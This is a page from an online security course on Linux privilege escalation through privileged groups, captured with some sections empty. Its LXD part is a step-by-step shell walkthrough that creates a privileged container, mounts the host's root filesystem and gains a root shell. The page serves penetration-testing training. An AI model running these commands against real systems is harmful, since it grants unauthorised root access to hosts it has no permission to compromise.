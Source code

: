 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/51/section/477
// Platform Version: V1
// Module ID: 51
// Module Name: Linux Privilege Escalation
// Module Difficulty: Easy
// Section ID: 477
// Section Title: Privileged Groups
// Page Title: Linux Privilege Escalation
// Page Number: 10
-->

# Privileged Groups

**Module Name:** Linux Privilege Escalation **Page Number:** 10

#### LINUX PRIVILEGE ESCALATION

# Privileged Groups

## LXC / LXD

``` shell-session
devops@NIX02:~$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

``` shell-session
devops@NIX02:~$ unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine/
```

``` shell-session
devops@NIX02:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```

``` shell-session
devops@NIX02:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b
```

``` shell-session
devops@NIX02:~$ lxc init alpine r00t -c security.privileged=true

Creating r00t
```

``` shell-session
devops@NIX02:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
```

``` shell-session
devops@NIX02:~$ lxc start r00t
devops@NIX02:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ #
```

## Docker

## Disk

## ADM

``` shell-session
secaudit@NIX02:~$ id

uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
```

# 

# 

#### Questions

####